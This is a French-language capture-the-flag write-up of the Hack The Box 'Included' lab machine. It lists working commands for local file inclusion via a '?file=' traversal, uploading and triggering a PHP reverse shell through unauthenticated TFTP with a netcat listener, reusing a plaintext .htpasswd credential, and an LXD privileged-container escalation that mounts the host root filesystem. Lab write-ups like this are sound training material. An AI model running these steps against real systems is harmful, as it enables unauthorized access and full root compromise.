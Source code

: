 ## Lab Title: Included
- Date: 2025-09-30
- Duration: ~120 minutes

### Platform: HTB – Starting Point > Tier 2

### 1. Scenario Summary
1. Le but est d'explorer les bases de l'énumération, de la découverte de services,
2. De l'alimentation des résultats Masscan vers `NMap`, du `dirbusting`, de `LFI`, de `RFI`, des astuces de filtrage `PHP`, de `TFTP`,
3. De la **post-exploitation** (découverte des identifiants en clair, Linpeas),
4. De l'élévation des privilèges (conteneurs de groupes **LXD/LXC**) et bien plus encore!

### 2. Findings
**Enumeration:**
1. En utilisant `nmap`, on fait le recherche sur la victime:
    - `nmap -Pn $ip --top-ports=10000`
    - Et on a trouvé cette information:
    ```code
        80/tcp open          http
        69/udp open|filtered tftp
    ```
    - Maintenant, on cannaît que **TFTP et HTTP** fonctionnent bien dans la machine victime.

2. Quand on a analysé le site Web: on a trouvé que on peut faire `Directory Traversal`
    - Comme: `http://$ip:80/?file=../../../etc/passwd` >> ou avec l'outil: `curl`
        - `curl http://$ip:80/?file=../../../etc/passwd`

3. On cannaît qu'il y a le serveur `TFTP`: et son dossier pour stocker les fichiers: `/var/lib/tftpboot/`
    - Donc, on recherchera ce dossier dans la machine victime:

4. **TFTP** >> fonctionne sans `user authentication`
    - On doit avoir le service: `tftp` pour communiquer le serveur remote

**FootHold:**
5. **PHP Reverse Shell:** `shell.php` serai envoyé par le `tftp` et on connait exactement où son `shell.php` serai: `/var/lib/tftpboot/`
    - `tftp $ip` >> après >> `put shell.php` pour télécharger.
    - On doit faire `trigger` >> avec `curl` et faire **NetCat** listening
    - `nc -lvnp 7532`
    - `curl http://$ip:80/?file=/var/lib/tftpboot/shell.php` >> après cela, on doit obtenir le `reverse-shell`
    - Avec cette commande: `python3 -c 'import pty;pty.spawn("/bin/bash")'` >> on obtient un meilleur shell.

**Lateral Movement:**
6. Quand on a analysé le site Web >> on a trouvé le fichier: `.htpasswd`
    - Dans ce fichier, on a trouvé les données de l'utilisateur: `mike:Sheffield19`
    - On fait `login` avec ces informations d'identifications: `su mike` >> et son mot de passe
    - Quand on change `/home/mike` >> on trouvera le `user.flag`

**Privilege Escalation:**
7. Maintenant, on doit analyser les privilèges de l'utilisateur: **mike** pour trouver un chemin pour le **root**
    - Quand on a analysé `id`: on a trouvé qu'il y un groupe: **lxd** (l'API pour gérer Linux conteneurs: LXC)
    - **lxd** >> **ne demande pas les privilèges pour accéder**
    - Pour une exploitation de **lxd** >> on doit utiliser le **Alpine** linux distro >> léger

    - **Le but est d'obtenir le root file system avec LXC en utilisant lxd**

8. Dans la machine attaquante, on doit télécharger ces fichiers de **Alpine** un distro de Linux:
    - `lxd.tar.xz`(metadata et configuration de alpine pour LXD/LXC) et `rootfs.squashfs` (root file system de alpine)
    - Pour avoir ces fichiers sur la machine victime, on doit faire `http.server` avec python3:
        - `python3 -m http.server 8000`
    - Et après, de la machine victime, on fait cela: `wget http://10.10.14.21:8000/lxd.tar.xz` et la meme chose pour `rootfs.squashfs`

9. Maintenant, on a ces fichiers: on doit préparer l'environement:
    1. On doit importer l'image utilisant **lxc**:
        - `lxc image import lxd.tar.xz rootfs.squashfs --alias alpine`
    2. On peut vérifier l'existence: `lxc image list`
    3. Pour obtenir tous les privilèges dans ce systeme: on doit changer la valuer de `security.privileged`:
        - `lxc init alpine privesc -c security.privileged=true`
    4. Pour accéder root file system, on fait **mounting**: on fait `mounting` le systeme actuel à notre conteneurs >> Par cela, on doit avoir un accèss à root systeme actuel
        - `lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true`
        - regardez >> `source=/` c'est `root file system actuel`

10. À ce moment-là, on peut commencer le conteneur:
    - `lxc start privesc`
    - `lxc exec privesc /bin/sh` >> Voilà, on obtient le shell de l'utilisateur root
    - On change son dossier à l'emplacement: `/mnt/root/root` et là-bas, on peut trouver le fichier: `root.txt`

### 3. Idea
1. Le meilleur chose que j'ai appris était d'obtenir les privilèges de l'utilisateur: `root` par **LXC: Linux Conteneurs**
2. C'était génial pour moi.

3. Voilà, ça y est, c'est fini: `https://labs.hackthebox.com/achievement/machine/2118023/292`
